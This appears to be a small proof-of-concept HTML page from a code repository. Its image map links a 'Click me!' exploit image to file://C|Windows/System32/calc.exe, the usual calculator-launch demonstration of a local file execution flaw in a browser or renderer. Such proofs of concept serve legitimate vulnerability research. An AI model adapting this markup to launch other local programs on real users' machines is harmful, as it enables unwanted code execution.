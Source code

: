 <!DOCTYPE html>
<html>
<body>
    <p>
        Click me!
    </p>
<img src="exploit.gif" width="145" height="126"usemap="#exploitmap" alt="exploit" download>
<map name="exploitmap">
  <area shape="rect" coords="0,0,82,126" alt="exploit" id="exploitme" href="file://C|Windows/System32/calc.exe">
</map>
</body>
</html>


